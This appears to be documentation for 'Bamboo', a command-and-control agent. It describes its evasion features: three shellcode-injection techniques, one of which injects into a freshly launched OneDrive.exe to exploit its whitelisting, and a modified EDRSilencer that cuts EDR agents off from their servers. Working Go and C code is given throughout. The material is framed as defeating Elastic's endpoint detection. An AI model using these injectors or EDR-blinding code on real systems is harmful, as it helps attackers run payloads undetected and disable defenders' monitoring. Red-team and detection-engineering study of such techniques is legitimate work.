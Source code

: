 # Evasion

## Shellcode Injection

Elastic Defend is unable to detect malicious in-memory files. Thus, these shellcode injection techniques are effective in executing payloads undetected. The shellcode injection techniques are implemented within Bamboo Agent and can be selected when the user uses the [`exploit`](Client/commands.md#exploit) command.

### Virtual Allocation Injection

Virtual Allocation injection is a technique used to inject shellcode into memory. As this method of injection uses VirtualAlloc, it allocates and injects shellcode into the memory of its own process.

The exploits used by Bamboo tend to crash the injected process, so using Virtual Allocation will likely cause the Agent that ran it to crash.

The technique involves the following steps:

1. Use VirtualAlloc to reserve space to inject the shellcode inside the process.
2. Copy the shellcode into the reserved space using RtlCopyMemory.
3. Call VirtualProtect to change the protection on the injected space to allow execution.
4. Create a new thread in the process using CreateThread to run the shellcode in the injected space.
5. WaitForSingleObject is used to wait for the thread to finish.

**Implementation**

[zaneGittins’ go-inject](https://github.com/zaneGittins/go-inject) simplifies using Windows functions related to injections, and is used by the agent to implement this technique.

<details>
<summary>Expand code</summary>

```go
func VirturalAlloc(payload string) (err error) {
  sc, err := hex.DecodeString(payload)
  if err != nil {
    fmt.Printf("\nError decoding shellcode: %s\n", err)
    return
  }

  address := inject.VirtualAlloc(uintptr(0), len(sc), windows.MEM_RESERVE|windows.MEM_COMMIT, windows.PAGE_READWRITE)
  inject.RtlMoveMemory2(address, sc)
  inject.VirtualProtect(address, len(sc), windows.PAGE_EXECUTE_READ)
  thread := inject.CreateThread(address)
  inject.WaitForSingleObject(thread, 0xFFFFFFFF)
  return
}
```

</details>

The code for this injection technique is found in Bamboo Agent.

---

### Remote Process Injection

Remote Process Injection, also called Vanilla Process Injection, is a shellcode injection technique that injects the shellcode into the memory of another process. Unlike the Virtual Allocation Injection technique above, this technique used VirtualAllocEx rather than VirtualAlloc, which allocates memory in another process instead of the local process.

The advantages of using process injection over injecting into itself are:

- Causing the injected process to crash instead of the agent used to inject.
- Make use of any whitelisting detection tools have for the injected process

The steps this technique uses is:

1. Get the PID of the process to inject.
2. Call OpenProcess to get a handle for the process to inject into.
3. Use VirtualAllocEx to allocate space for the shellcode in the remote process.
4. Write the shellcode into the allocated space using WriteProcessMemory.
5. Create a thread in the remote process with CreateRemoteThread to run the allocated space.
6. Close the handle to the process with CloseHandle.

**Implementation**

Instead of finding the PID of a suitable process, the Agent will launch OneDrive.exe from the user’s home directory. OneDrive is a very suitable process to inject into with the exploits Bamboo has, and launching the process before injecting into it will ensure that the process will be available to inject into. It is also whitelisted from Elastic Security’s Component Model Hijacking as it is considered a noisy process.

<details>
<summary>Expand code</summary>

```go
...
sc, err := hex.DecodeString(payload)
if err != nil {
  return
}
 find and launch OneDrive.exe and use its PID
currentUser, _ := user.Current()
oneDriveExe := currentUser.HomeDir + "\\AppData\\Local\\Microsoft\\OneDrive\\OneDrive.exe"
cmd := exec.Command(oneDriveExe)
cmd.Stdout = os.Stdout
// Start() runs the command without waiting for return - rest of the code can continue
  err = cmd.Start()
  if err != nil {
  fmt.Println(err)
    return errors.New("cannot launch process")
}
exploitPID := cmd.Process.Pid
fmt.Println("exploit pid:", exploitPID)
...
```

</details>

The rest of the injection technique is implemented with [zaneGittins’ go-inject](https://github.com/zaneGittins/go-inject) library.

<details>
<summary>Expand code</summary>

```go
...
processHandle, _ := inject.OpenProcess(windows.PROCESS_CREATE_THREAD|windows.PROCESS_VM_OPERATION|windows.PROCESS_VM_WRITE|windows.PROCESS_VM_READ|windows.PROCESS_QUERY_INFORMATION, 0, uint32(int(exploitPID)))
memptr := inject.VirtualAllocEx(processHandle, uintptr(0), len(sc), 0x3000, 0x40)

_ = inject.WriteProcessMemory(processHandle, memptr, sc)
inject.CreateRemoteThread(processHandle, 0, 0, memptr, 0, 0, 0)
inject.CloseHandle(processHandle)
fmt.Println(windows.GetLastError())
return
```

</details>

The code for this injection technique is found in Bamboo Agent.

### NtQueueApcThreadEx NTDLL Gadget Injection

**Description**

This is a novel shellcode injection method first used by Roshtyak, the DLL backdoor used by the malware Raspberry Robin. This was adapted into a C program and published on github by [LLoydLabs](https://github.com/LloydLabs/ntqueueapcthreadex-ntdll-gadget-injection), which is the original code Bamboo uses for its NtQueueApcThreadEx NTDLL Gadget Injection. The image below shows the parameters of `NtQueueApcThreadEx()`, a function in the Windows Native API. The original code only works with x86 shellcode. However, in the explanation below, the gadget `pop rax; ret` is used instead of `pop r32; ret` to make the technique work with x64 shellcode instead.

![ntqueueapcthreadex_api](img/ntqueue.png)

The technique uses the following steps:

1. Allocate shellcode into the memory of the current process
2. Scan the ntdll.dll code sections of the current process for a `pop rax; ret` gadget and pick 1 of these gadgets randomly.
   - “rax” refers to a general-purpose register such as eax, ebc, ecx etc. Thus, an example gadget that would meet this requirement is `pop ebp; ret`.
   - An exception is the gadget `pop esp; ret` because this would pivot the stack.
   - “Code sections” refers to IMAGE_SCN_CNT_CODE and IMAGE_SCN_MEM_EXECUTE
3. Call `NtQueueApcThreadEx()` with the `ApcRoutine` set to the address of the random gadget found in step 2 (`pop rax; ret`) and `SystemArgument1` as the pointer to the shellcode allocated in step 1.
   - With `ApcRoutine` set to the random gadget, the `pop r32` instruction will make the stack pointer point to `SystemArgument1`.
   - The `ret` instruction will make the Instruction Pointer (IP) jump to the location that `SystemArgument1` points to, which is the location of the allocated shellcode in step 1

This technique requires Microsoft Visual C++ redistributables x86 to be installed on the target which can be found at [https://aka.ms/vs/16/release/vc_redist.x86.exe](https://aka.ms/vs/16/release/vc_redist.x86.exe).

**Implementation**

The code is modified to work with x64 shellcode by changing a single line in gadget.h as shown in the code snippet below.

<details>
<summary>Expand code</summary>

```c
static
BOOL
gadget_match_valid(
    PBYTE pbAddress
)
{
    //return (*pbAddress != 0x5C && (*pbAddress & 0xF0) == 0x50) && *(pbAddress + 1) == 0xC3; // for x86
    return *pbAddress == 0x58 && *(pbAddress + 1) == 0xC3; // for x64

}
```

</details>

Additionally, in the original code, the shellcode was hardcoded in main.h. In Bamboo, the code is modified to receive shellcode via standard input. After the injection program is dropped onto the target and executed, the shellcode will be passed via standard input from the agent as a hexstring in the format “ab1823129ef…”, which is the standard format of shellcode that our agent uses for its injection techniques. This hexstring is stored into a buffer of the injection program and converted by a `convert_hex()` function into a hexstring of format “\xab\x18\x23\x12\xef…”. The rest of the code follows the logic of the original PoC from LloydLabs.

When this injection technique is selected, Bamboo Agent drops its embedded Gadget Injection file onto the target, executes it, then passes the payload as a hexstring via standard input which is then injected.

---

## EDR Blinding

The tool below is not an injection technique, but instead used to disrupt the effectiveness of the EDR itself.

### EDR Silencer

**Description**

EDRSilencer, created by [netero1010](https://github.com/netero1010) is an [open-source](https://github.com/netero1010/EDRSilencer) evasion tool designed for disrupting Endpoint Detection and Response (EDR) systems. It leverages Windows Filtering Platform (WFP) APIs, which allows a program developer to create network filtering software that can examine, modify and stop network traffic. EDRSilencer uses the WFP to prevent EDR agents and processes from connecting and reporting security events with their servers, effectively disabling the EDR’s threat detection capabilities of the EDR. The tool currently supports Elastic EDR, among other popular EDR solutions.

**Implementation**

In the [original code's](https://github.com/netero1010/EDRSilencer/blob/main/EDRSilencer.c) main function, it checks if the user inputs the correct number of command-line arguments and performs different actions based on the argument’s value:

| Arguments            | Description                                                     |
| -------------------- | --------------------------------------------------------------- |
| -h or --help         | Prints the help information                                     |
| blockedr             | Blocks all detected EDR processes from sending outbound traffic |
| block <process path> | Blocks a specific process from sending outbound traffic         |
| unblockall           | Removes all WFP filters applied                                 |
| unblock <filter id>  | Removes a specific WFP filter based on its filter ID            |

The team modified the main function of the original code. The modified code no longer requires command-line arguments. It has been altered to only execute the `blockedr` argument. The modified code is as follows:

<details>
<summary>Expand code</summary>

```c
int main() {
    if (!CheckProcessIntegrityLevel()) {
        return 1;
    }
    PrintHelp();
    BlockEdrProcessTraffic();
    return 0;
}
```

</details>
This modification allows the executable to be easily incorporated within our C2 and agent, making it more convenient and efficient for our purposes.
